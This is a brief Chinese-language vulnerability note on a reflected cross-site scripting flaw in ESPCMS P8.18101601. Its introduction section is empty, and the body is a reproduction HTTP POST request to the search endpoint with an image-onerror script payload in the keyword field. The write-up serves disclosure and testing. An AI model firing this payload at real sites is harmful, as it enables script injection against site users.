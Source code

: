 ESPCMS 前台反射型xss
====================

一、漏洞简介
------------

二、漏洞影响
------------

ESPCMS P8.18101601

三、复现过程
------------

    POST /index.php?ac=Search&at=List HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 46
    Origin: https://www.0-sec.org
    Connection: close
    Referer: https://www.0-sec.org8/index.php?ac=Search&at=List
    Cookie: zerosec; 

    mid=0&keyword="><img src=1 onerror=alert(1)><"
